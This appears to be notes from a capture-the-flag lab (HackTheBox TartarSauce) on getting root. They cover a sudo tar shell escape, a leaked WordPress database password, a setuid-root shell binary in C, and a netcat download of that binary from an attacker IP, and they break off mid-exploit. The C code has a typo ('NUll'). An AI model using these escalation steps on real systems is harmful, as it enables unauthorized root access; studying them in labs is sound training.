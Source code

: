 # Getting Root

```bash

www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/ta
```

https://gtfobins.github.io/gtfobins/tar/#sudo
```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![[Pasted image 20211111031835.png]]

* Run LinPeass.sh

```bash
-rwxr-xr-x 1 root root 2963 Jan 21  2021 /var/www/html/webservices/wp/wp-config.php
define('DB_NAME', 'wp');
define('DB_USER', 'wpuser');
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
define('DB_HOST', 'localhost');
```

![[Pasted image 20211111033522.png]]

![[Pasted image 20211111033709.png]]

* Hunting for vulnerabilities on /usr/sbin/backuperer
![[Pasted image 20211111035508.png]]

* Creating our 32-bit setuid binary
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
  setreuid(0,0);
    execve("/bin/sh", NULL, NUll);
}
```

```bash
gcc -m32 -o kawai setuid.c
```



create folder var/www/html  on your local machine

```bash
onuma@TartarSauce:/var/tmp$ mkdir -p var/www/html
```


```bash
$ nc 10.10.14.21 9002 > kawai
```

```bash
$ chmod 6555 kawai
```

```bash
onuma@TartarSauce:/var/tmp$ tar -zcvf kawai.tar.gz var/
var/
var/www/
var/www/html/
var/www/html/kawai
```

